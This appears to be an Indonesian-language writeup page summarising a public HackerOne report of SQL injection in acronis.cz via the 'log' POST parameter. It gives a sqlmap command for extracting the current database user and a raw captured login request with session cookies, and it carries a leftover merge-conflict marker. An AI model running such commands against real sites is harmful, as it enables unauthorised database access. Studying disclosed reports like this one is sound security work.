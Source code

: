 ![Version](3.png)
>>>>>>> fd99555 (Update rebelsec.id Site)

### #1109311 SQL injection in acronis.cz via the log parameter

sumber : https://hackerone.com/reports/1109311

attacker menemukan kerentanan **sqli** di website **www.acronis.cz** dengan **POST** method request via log parameter, dengan bantuan tools **[Sqlmap](https://github.com/sqlmapproject/sqlmap)** sehingga mendapatkan isi database **'u_acronis@localhost''**

payload :

```
sqlmap -p log -r request-cz.txt --current-user  --level=2 --risk=2
```

```
POST /wp-login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: https://www.acronis.cz/
Cookie: PHPSESSID=tl1cf9spe0vih33iu0oi407sj9;leady_session_id=ba090174-dfd8-47d8-9fe3-8677d9d2bc7c;_fbp=fb.1.1614028220501.157613909;wordpress_test_cookie=WP+Cookie+check;wp-resetpass-d4279cb03f82f59849b53cff997b8a24=JJJ27QQQ%3AJJJ21QQQ
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 208
Host: www.acronis.cz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Connection: Keep-alive
```
